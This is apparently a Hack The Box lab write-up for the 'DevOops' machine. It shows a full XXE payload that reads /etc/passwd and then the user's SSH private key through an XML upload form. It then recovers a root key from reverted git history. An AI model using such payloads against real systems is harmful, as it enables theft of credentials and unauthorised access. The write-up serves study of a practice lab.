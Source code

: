 # DevOops

>skills this box involved:
- enumeration  
- git command use
- XXE file read
# USER
After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.
```
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```
This means that the user had an old ssh key reverted(its the root ssh key) so we need to try and find a way to get this.
We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key,
We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :)

<script src="https://www.hackthebox.eu/badge/246314"></script>

